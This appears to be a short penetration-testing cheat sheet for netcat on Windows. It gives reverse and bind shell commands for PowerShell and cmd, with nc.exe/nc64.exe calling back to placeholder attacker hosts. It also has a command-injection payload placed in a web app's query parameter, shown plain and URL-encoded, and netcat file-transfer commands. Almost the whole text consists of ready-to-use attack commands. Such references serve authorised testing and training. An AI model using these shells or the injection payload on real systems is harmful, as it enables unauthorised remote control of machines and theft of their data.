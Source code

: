 
## Reverse Powershell

```
#32bit
nc.exe $ATTACKER_HOST $ATTACKER_PORT -e powershell
#64bit
nc64.exe $ATTACKER_HOST $ATTACKER_PORT -e powershell
```

Example RCE on web app:

```
http://vulnerable.com?pageId=nc64.exe 10.10.10.10 1337 -e powershell
```

Of course in the wild, we would url encode it:

```
http://vulnerable.com?pageId=nc64.exe%2010.10.10.10%201337%20-e%20powershell
```

## Bind Powershell

```
#32bit
nc.exe -l -p $LISTENPORT -e powershell
#64bit
nc64.exe -l -p $LISTENPORT -e powershell
```

## Reverse Shell

```
#32bit
nc.exe $ATTACKER_HOST $ATTACKER_PORT -e cmd
#64bit
nc64.exe $ATTACKER_HOST $ATTACKER_PORT -e cmd
```

## Bind Shell

```
#32bit
nc.exe -l -p $LISTENPORT -e cmd
#64bit
nc64.exe -l -p $LISTENPORT -e cmd
```

## Transfer File

**Sender (Unix)**

```
nc $TARGET $PORT < $FILE
```

**Receiver (Windows)**

```
#32bit
nc.exe -l -p $LISTENPORT > $FILE
#64bit
nc64.exe -l -p $LISTENPORT > $FILE
```